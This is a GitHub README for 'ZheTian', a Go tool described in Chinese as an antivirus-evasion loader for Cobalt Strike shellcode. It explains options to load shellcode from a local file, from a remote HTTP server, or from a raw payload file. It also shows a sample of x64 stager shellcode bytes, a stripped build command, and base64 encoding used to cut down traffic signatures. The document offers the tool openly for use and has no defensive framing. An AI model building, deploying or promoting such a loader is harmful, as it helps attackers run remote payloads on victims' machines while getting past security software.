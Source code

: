 ![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/logo.png "my-logo")



[# ZheTian](https://github.com/yqcs/ZheTian/)
 

####ZheTian Powerful remote load and execute ShellCode tool
免杀cs shellcode加载框架
>ShellCode加载类型：
-r 读取本地文件内shellcode字节码
-u 从http服务器获取动态shellcode字节码
-s 直接加载原始Payload文件

从http远程服务器或本地文件内读取shellcode字节码需使用以下格式： java类型需去除0x，c or python 类型需去除\x

###//示例：
 
  原始python类型： 
>buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b"....
 
修改成：
>fc4883e4f0e8c8000000415141......
> 
Java、c、ruby等同理。只需将字节数组里的16进制代码提取出来即可。暂时只支持64位payload
###编译：
>go build -ldflags "-w -s"  main.go
### 注意：使用code字节码加载时必须使用base64加密，否则无法解析！！
后端使用了base64对读取到的内容进行转码，为了减小流量特征。AES/DES的加密模式太多在未标明的情况下可能导致无法解密失败，故此暂不考虑使用
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/1.png "my-logo")
